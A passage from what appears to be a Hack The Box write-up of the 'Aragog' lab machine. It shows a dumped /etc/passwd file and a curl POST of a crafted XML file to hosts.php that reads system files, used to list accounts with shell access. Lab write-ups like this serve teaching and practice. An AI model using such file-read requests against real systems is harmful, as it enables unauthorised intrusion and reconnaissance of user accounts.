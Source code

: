 ```bash
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
```

<p align="center">
    <img src="https://media.giphy.com/media/3o8dFChfP80VOYSriE/giphy.gif">
</p>

I rerun the command and grep for `/bin/bash` to find all users with access to a shell.

```bash
root@vmw-kali:~/htb/aragog# curl -X POST -d @totallylegit.xml 10.10.10.78/hosts.php | grep /bin/bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2681  100  2487  100   194   3953    308 --:--:-- --:--:-- --:--:--  4262
There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
```

--- 

<p class="note">   
To recap, at this point I have: <br>
- two accounts with shell access<br>
- an open SSH port<br>
- method to read files on disk.<br>
</p>
